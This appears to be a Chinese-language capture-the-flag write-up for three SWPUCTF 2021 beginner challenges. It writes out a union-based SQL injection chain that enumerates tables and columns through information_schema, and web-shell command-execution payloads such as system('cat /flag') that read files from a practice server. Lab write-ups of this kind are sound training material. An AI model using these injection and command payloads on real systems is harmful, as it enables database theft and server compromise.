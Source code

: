 
## 106.[SWPUCTF 2021 新生赛]easy_sql

刚打开有被吓到 看标头提示参数

![image-20241123223258995](D:\ctf wp\81-120.assets\image-20241123223258995.png)

![image-20241123223405737](D:\ctf wp\81-120.assets\image-20241123223405737.png)

![image-20241123223936104](D:\ctf wp\81-120.assets\image-20241123223936104.png)

判定为字符型注入

=1' order by 4--+报错![image-20241123224133433](D:\ctf wp\81-120.assets\image-20241123224133433.png)

-1' union select 1,database(),database()--+

![image-20241123224626801](D:\ctf wp\81-120.assets\image-20241123224626801.png)

报表 group_concat(table_name) from information_schema.tables where table_schema='test_db'-- +![image-20241123225119643](D:\ctf wp\81-120.assets\image-20241123225119643.png)

group_concat(column_name) from information_schema.columns where table_name='test_tb' -- +![image-20241123225419854](D:\ctf wp\81-120.assets\image-20241123225419854.png)

flag%20from%20test_db.test_tb--+![image-20241123225616812](D:\ctf wp\81-120.assets\image-20241123225616812.png)

## 107.[SWPUCTF 2021 新生赛]easyrce

![image-20241124232202731](D:\ctf wp\81-120.assets\image-20241124232202731.png)

最后加分号



## 108.[SWPUCTF 2021 新生赛]caidao

1.

```
wllm=echo `cat /flag`; 
因为内的内容相当于执行系统命令 
（也可以位为echo `tac /flag`）


```

![image-20241124232834519](D:\ctf wp\81-120.assets\image-20241124232834519.png)

2.wllm=var_dump(file_get_contents("/flag"));

3.wllm=system('cat /flag');

4.![image-20241124233418622](D:\ctf wp\81-120.assets\image-20241124233418622.png)

